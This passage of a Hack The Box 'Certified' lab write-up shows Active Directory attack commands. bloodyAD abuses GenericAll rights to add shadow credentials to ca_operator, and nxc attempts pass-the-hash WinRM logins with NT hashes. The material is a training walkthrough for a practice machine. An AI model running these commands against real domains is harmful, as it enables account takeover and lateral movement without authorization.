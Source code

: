 After owning **management_svc**, we see that it has **GenericAll** on **ca_operator**.

Exploiting this using bloodyAD.

Since we have the TGT for **management_svc** user stored in the .ccache file.

```bash
export KRB5CCNAME=management_svc_Wj.ccache
```

exported the ccache file to our kerberos environment variable and used klist to showcase it.

![image.png](/assets/images/Certified_HTB/image%2016.png)

I was experiencing problems with the TGT the kerberos way of using bloodyAD.

So proceeding with the normal usage of bloodyAD.

```bash
bloodyAD -d certified.htb -u 'management_svc' -p :a091c1832bcdd4677c28b5a6a1295584 --dc-ip 10.129.231.186 add shadowCredentials 'ca_operator'
```

![image.png](/assets/images/Certified_HTB/image%2017.png)

Now we have the NT hash of the **ca_operator@certified.htb** account and its TGT.

### Shell as Management_svc

Now lets try to authenticate as **ca_operator** on **certified.htb**.

```bash
nxc winrm certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
```

![image.png](/assets/images/Certified_HTB/image%2018.png)

Unfortunately we cant do this so lets try with our **management_svc** user.

```bash
nxc winrm certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![image.png](/assets/images/Certified_HTB/image%2019.png)
